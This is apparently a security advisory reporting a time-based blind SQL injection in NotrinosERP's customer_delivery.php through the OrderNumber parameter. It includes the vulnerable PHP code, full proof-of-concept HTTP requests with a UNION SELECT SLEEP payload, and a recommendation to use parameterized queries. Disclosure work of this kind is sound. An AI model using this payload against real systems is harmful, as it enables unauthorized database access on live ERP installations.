 # Description
The endpoint **/sales/customer_delivery.php** is vulnerable to Blind SQL Injection (Time-based) via the GET parameter **OrderNumber**. This endpoint can be triggered through the following menu: Sales - Sales Order Entry - Place Order - Make Delivery Against This Order. From the source code perspective, the endpoint will execute the **adjust_shipping_charge** function in the **\sales\customer_delivery.php** file line number 107. As shown in the code snippet below, the OrderNumber parameter is taken directly from the query string and passed into the function without any sanitization or escaping.


```
adjust_shipping_charge($ord, $_GET['OrderNumber']);
```



The adjust_shipping_charge function itself can be found in the **\sales\includes\db\sales_delivery_db.inc** file line number 203. In that function the OrderNumber parameter or $trans_no is concatenated directly into the SQL query.

```
function adjust_shipping_charge(&$delivery, $trans_no) {
	$sql = "SELECT sum(ov_freight) as freight FROM ".TB_PREF."debtor_trans WHERE order_ = $trans_no AND type = " . ST_CUSTDELIVERY . " AND debtor_no = " . $delivery->customer_id;
	$result = db_query($sql, 'Can not find delivery notes');
```

This allows the attacker to inject malicious OrderNumber payloads to execute the malicious SQL query.

# Proof of Concept

Triggering time delays with MySQL sleep function.

Normal request will take around 200 milis (0.2 seconds) response time

```
GET /NotrinosERP/sales/customer_delivery.php?OrderNumber=10 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/NotrinosERP/sales/sales_order_entry.php?AddedID=12
Cookie: Notrinos2938c152fda6be29ce4d5ac3a638a781=8s9gl1g6fphudemau5ul3polro; FAinstall=n916ogdqa12ni92dlhmgqiv7gt
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

The following malicious request with OrderNumber parameter set to `10+UNION+SELECT+SLEEP(2)%23--+-` will take around 2000 milis (2 seconds) response time.

```
GET /NotrinosERP/sales/customer_delivery.php?OrderNumber=10+UNION+SELECT+SLEEP(2)%23--+- HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/NotrinosERP/sales/sales_order_entry.php?AddedID=12
Cookie: Notrinos2938c152fda6be29ce4d5ac3a638a781=8s9gl1g6fphudemau5ul3polro; FAinstall=n916ogdqa12ni92dlhmgqiv7gt
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

Note: The orderNumber (e.g., 10) need to be valid/existing order number.



# Root Cause
User input on the WorkOrder parameter ($trans_no) is not sanitized and used directly in the query through string concatenation.
https://github.com/notrinos/NotrinosERP/blob/master/sales/includes/db/sales_delivery_db.inc#L204


# Recommendation
Avoid direct string concatenation into the sql query. It's recommended to use input sanitization as well as implementing parameterized query.
